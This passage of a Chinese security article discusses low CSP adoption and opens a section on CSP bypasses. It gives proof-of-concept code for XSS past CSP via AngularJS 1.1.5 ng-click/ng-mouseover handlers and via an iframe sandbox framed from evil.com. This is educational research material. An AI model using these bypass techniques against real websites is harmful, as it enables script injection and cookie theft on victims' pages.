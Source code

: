 在网站安全防御方面，我们还要有很长的路要走。虽然 CSP 安全策略头只是网站安全整体防御中的一小部分，但合理的利用还是可以起到很好的防护作用。然而在我们分析的百万网站中，CSP 的使用率是极其的低，从这一点来说 CSP 在国内就应该广泛的给网站管理员进行科普。

## 0x09 CSP Bypass

* * *

一个安全策略从诞生开始将会时不时的有一个叫“Bypass”的小伙伴跟随左右。而从辩证角度来讲，多加载一种安全策略，就多了一种 Bypass 的维度。一旦 Bypass 出现，就意味着将有一种设计者没有考虑到的方法或技巧，将破坏策略的原有规则。

CSP 也亦是如此，在一次次被绕过然后在一次次修复过程中，来完善自己的语法和指令。

### bypass AngularJS 系列绕过

AngularJS 是为数不多的支持 CSP 模式的 MVC 框架，在早起版本中可以构造多种方式绕过 CSP 防御。

CSP Bypasses with AngularJS 1.0.8 and 1.1.5

例如：XSS via Click & Hover (ng-click & ng-mouseover attribute)

```
<?php
header('X-Content-Security-Policy: default-src \'self\' ajax.googleapis.com');
header('Content-Security-Policy: default-src \'self\' ajax.googleapis.com');
header('X-Webkit-CSP: default-src \'self\' ajax.googleapis.com');
header('Set-Cookie: abc=123');
?><!doctype html>
<html ng-app ng-csp>
<head>
<script src="http://ajax.googleapis.com/ajax/libs/angularjs/1.1.5/angular.min.js"></script>
</head>
<body ng-click="$event.view.alert(1)">
        Click me
        <h1 ng-mouseover="$event.target.ownerDocument.defaultView.alert(2)">Hover me</h1>
</body>

```

更多的可以看[`code.google.com/p/mustache-security/wiki/AngularJS`](https://code.google.com/p/mustache-security/wiki/AngularJS)

### 策略优先级绕过

在浏览器的保护策略中，有很多是重复的。比如 A 策略可以抵御 C 攻击，B 策略也可以抵御 C 攻击。此处的抵御可以是阻断也可以是放行。于是当 AB 同时作用于 C 攻击上时，Bypass 就可能发生。

（1）Iframe sandbox 和 CSP sandbox

当 iframe sandbox 允许执行 JS，而 CSP 不允许执行 JS，问题就发生了，CSP 就被 bypass 了。

```
//evil.com
<iframe sandbox="allow-scripts" src="//victim.com/csp.html">
//victim.com
<?php
header('X-Content-Security-Policy: default-src \'self\'');
header('Content-Security-Policy: default-src \'self\'');
header('X-Webkit-CSP: default-src \'self\'');
header('Set-Cookie: abc=123');
?><!doctype html>
<body onclick="alert(1)">
Click me
</body>

```

